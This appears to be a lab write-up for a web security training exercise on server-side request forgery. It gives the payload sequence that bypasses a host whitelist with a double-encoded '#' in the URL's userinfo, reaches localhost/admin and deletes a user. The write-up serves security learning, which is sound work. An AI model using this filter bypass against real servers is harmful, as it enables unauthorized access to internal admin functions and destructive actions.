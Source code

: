 # SSRF with whitelist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed an anti-SSRF defense you will need to bypass.

note:
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
control + u for url encoded
http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1
ctrl + shift =u url decoded

---

### step 1

stockApi=http://username#@stock.weliketoshop.net
respoonse => "External stock check host must be stock.weliketoshop.net"

ctrl + u => stockApi=http://username%23@stock.weliketoshop.net
response => "External stock check host must be stock.weliketoshop.net"

again ctrl + u => stockApi=http://username%2523@stock.weliketoshop.net
response => HTTP/1.1 500 Internal Server Error

remove http://username add http://localhost
stockApi=http://localhost%2523@stock.weliketoshop.net
response => 200 ok

![screenshot](images/lab6_localhost_response.jpg)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin
response 200 ok

![screenshot](images/lab6_localhost_response_admin_panel.jpg)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

send request => 302 Found

lab solved
